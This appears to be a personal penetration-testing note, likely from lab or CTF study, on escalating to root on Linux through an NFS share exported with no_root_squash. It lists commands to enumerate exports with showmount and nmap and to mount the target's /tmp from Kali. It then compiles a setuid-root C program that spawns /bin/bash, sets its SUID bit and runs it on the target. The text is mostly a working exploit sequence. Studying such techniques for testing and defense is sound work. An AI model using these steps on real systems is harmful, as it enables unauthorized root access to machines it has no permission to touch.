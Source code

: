 #### Mounting
Target:
```bash - target
cat /etc/exports
```

![[Pasted image 20221115140352.png]]

Notice how the /tmp directory is set to no_root_squash.

Kali:
```bash - kali
showmount -e $TARGET
```

![[Pasted image 20221110090529.png]]
Similar Nmap script:

```bash
nmap –sV –script=nfs-showmount $TARGET
```

```bash - kali
mkdir /tmp/mountme
```

```bash - kali
sudo mount -o rw,vers=2 $TARGET:/tmp /tmp/mountme
```

```bash - kali
ls /tmp/mountme
```

#### Root Squashing
```bash - kali
cd /tmp/mountme
```

```bash - kali
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > x.c
```

```bash - kali
sudo gcc x.c -o x
```

```bash - kali
sudo chmod +s x
```

Target:
```bash - target
cd /tmp
```

```bash - target
./x
```

![[Pasted image 20220220171150.png]]

